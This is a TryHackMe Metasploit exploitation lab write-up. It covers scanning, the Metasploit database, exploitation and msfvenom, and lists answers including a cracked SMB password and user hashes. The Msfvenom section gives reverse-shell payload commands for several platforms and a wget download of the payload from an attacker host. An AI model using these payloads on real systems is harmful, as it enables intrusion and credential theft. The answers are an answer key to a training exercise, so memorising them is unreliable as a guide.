







# Metasploit: Exploitation

## Task 01: Introduction

### Description
- In this room, we will learn how to use Metasploit for vulnerability scanning and exploitation.
- We will also cover how the database feature makes it easier to manage penetration testing engagements with a broader scope.

## Task 02: Scanning

### Descripton

- Port Scanning : list potential port scanning modules available using the search portscan command.
- UDP service Identification: The scanner/discovery/udp_sweep module will allow you to quickly identify services running over the UDP (User Datagram Protocol).
- SMB Scans: Especially useful in a corporate network would be smb_enumshares and smb_version.

#### Question

How many ports are open on the target system?

#### Answer

5

#### Question

Using the relevant scanner, what NetBIOS name can you see?

#### Answer

ACME IT SUPPORT

#### Question

What is running on port 8000?

#### Answer

webfs/1.21

#### Question

What is the "penny" user's SMB password? Use the wordlist mentioned in the previous task.

#### Answer

leo1234

## Task 03: The Metasploit Database

### Description

- Metasploit has a database function to simplify project management and avoid possible confusion when setting up parameter values.
- You will first need to start the PostgreSQL database, which Metasploit will use with the following command: systemctl start postgresql.
- Then you will need to initialize the Metasploit Database using the msfdb init command by running it as the postgres account using sudo -u postgres msfdb init.
- You can now launch msfconsole and check the database status using the db_status command.
- You can list available workspaces using the workspace command.
- You can add a workspace using the -a parameter or delete a workspace using the -d parameter, respectively.
- You can use the workspace -h command to list available options for the workspace command.
- Different from regular Metasploit usage, once Metasploit is launched with a database, the help command, you will show the Database Backends Commands menu.
- The hosts -h and services -h commands can help you become more familiar with available options. Once the host information is stored in the database, you can use the hosts -R command to add this value to the RHOSTS parameter.
- The services command used with the -S parameter will allow you to search for specific services in the environment.

## Task 04: Vulnerability Scanning

### Description

- Metasploit allows you to quickly identify some critical vulnerabilities that could be considered as “low hanging fruit”.
- Finding vulnerabilities using Metasploit will rely heavily on your ability to scan and fingerprint the target. The better you are at these stages, the more options Metasploit may provide you.

#### Question

Who wrote the module that allows us to check SMTP servers for open relay?

#### Answer

Campbell Murray

## Task 05: Exploitation

### Description

-  Exploits are the most populated module category.
-  Most of the exploits will have a preset default payload. However, you can always use the show payloads command to list other commands you can use with that specific exploit.
-  Once a session is opened, you can background it using CTRL+Z or abort it using CTRL+C.
-  The sessions command will list all active sessions.

#### Question

What is the content of the flag.txt file?

#### Answer

THM-5455554845

#### Question

What is the NTLM hash of the password of the user "pirate"?

#### Answer

8ce9a3ebd1647fcc5e04025019f4b875

## Task 06: Msfvenom

###  Description

- Msfvenom, which replaced Msfpayload and Msfencode, allows you to generate payloads.
- You can either generate stand-alone payloads (e.g. a Windows executable for Meterpreter) or get a usable raw format (e.g. python). The msfvenom --list formats command can be used to list supported output formats
-  Reverse shells or Meterpreter callbacks generated in your MSFvenom payload can be easily caught using a handler.
-  Linux Executable and Linkable Format (elf)
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f elf > rev_shell.elf                         These are executable files for Linux. However, you may still need to make sure they have executable permissions on the lab machine. For example, once you have the shell.elf file on your lab machine, use the chmod +x shell.elf command to accord executable permissions. Once done, you can run this file by typing ./shell.elf on the lab machine command line.
- Windows
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f exe > rev_shell.exe
- PHP
msfvenom -p php/meterpreter_reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.php
- ASP
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.10.X.X LPORT=XXXX -f asp > rev_shell.asp
- Python
msfvenom -p cmd/unix/reverse_python LHOST=10.10.X.X LPORT=XXXX -f raw > rev_shell.py

#### Question

Create a meterpreter payload in the .elf format (on the AttackBox, or your attacking machine of choice).

#### Question

Transfer it to the lab machine (you can start a Python web server on your attacking machine with the python3 -m http.server 9000 command and use wget http://ATTACKING_MACHINE_IP:9000/shell.elf to download it to the lab machine).

#### Question

Get a meterpreter session on the lab machine.

#### Question

Use a post exploitation module to dump hashes of other users on the system.

#### Question

What is the other user's password hash?

#### Answer

$6$Sy0NNIXw$SJ27WltHI89hwM5UxqVGiXidj94QFRm2Ynp9p9kxgVbjrmtMez9EqXoDWtcQd8rf0tjc77hBFbWxjGmQCTbep0

